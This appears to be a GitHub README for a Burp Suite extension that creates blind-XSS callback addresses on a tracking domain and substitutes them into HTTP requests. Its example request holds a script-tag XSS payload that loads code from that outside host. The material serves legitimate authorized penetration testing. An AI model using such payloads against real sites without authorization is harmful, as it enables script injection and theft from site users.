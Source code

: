 # What is the this tool for?

This tool can be used to generate relevant XSS addresses that can be used to track HTTP requests. By using this tool, all your injection attempts will be tracked and the reports you generate will include the full HTTP request in the final output.

# Minimum Burp Suite Version

2023.1

Because of the use of Burp Extensions API - Montoya

# Setup

You can download the jar directly and load it into burpsuite.

After loading the plugin, a new tab will be created, as shown below.

<img width="1048" alt="image" src="https://user-images.githubusercontent.com/16237562/215692824-f1174bbc-d00d-4d7e-b5b0-dd171aae7ac9.png">

Just fill in the form and click Login.

`replace` is the javascript address that needs to be replaced.

For example (`replace` is `test123`)

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: test123

content=testhello<script src="test123"></script>
```

Finally the extension will automatically update the request

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: https://request-id-domain.xss.cl

content=testhello<script src="https://request-id-domain.xss.cl"></script>
```
